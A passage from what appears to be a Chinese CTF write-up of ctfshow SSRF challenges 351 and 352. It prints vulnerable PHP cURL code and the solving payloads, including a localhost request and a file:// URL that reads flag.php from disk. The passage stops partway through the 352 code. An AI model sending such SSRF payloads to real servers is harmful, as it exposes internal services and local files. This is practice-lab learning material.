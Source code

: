 ```yaml
---
title: ctfshow-ssrf
id: ctfshow-ssrf
date: 2021-09-3 15:53:33
sidebar_position: 11
---
```




ssrf开始啦

[SSRF漏洞的利用与攻击内网应用实战 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7405)


## 351

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $ch=curl_init($url);	# 初始化 cURL 会话
> # curl_setopt — 设置 cURL 传输选项
> curl_setopt($ch, CURLOPT_HEADER, 0);
> # 启用时会将头文件的信息作为数据流输出。	
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> # 启用时将curl_exec()获取的信息以字符串返回，而不是直接输出。
> $result=curl_exec($ch);	# 执行 cURL 会话
> curl_close($ch);	# 关闭 cURL 会话
> echo ($result);
> ?>
> ```
>
> [PHP: cURL 函数 - Manual](https://www.php.net/manual/zh/ref.curl.php)

存在flag.php,访问显示：非本地用户禁止访问
post传值即可：

```
url=127.0.0.1/flag.php
```

后来看和其他师傅交流发现还有一种解法，利用file伪协议读取本地文件：

```
url=file:///var/www/html/flag.php
```

## 352

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $x=parse_url($url);	#parse_url — 解析 URL，返回其组成部分
> if($x['scheme']==='http'||$x['scheme']==='https'){
> if(!preg_match('/localhost|127.0.0/')){
> $ch=curl_init($url);
> curl_setopt($ch, CURLOPT_HEADER, 0);
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> $result=curl_exec($ch);
> curl_close($ch);
> echo ($result);
> }
> else{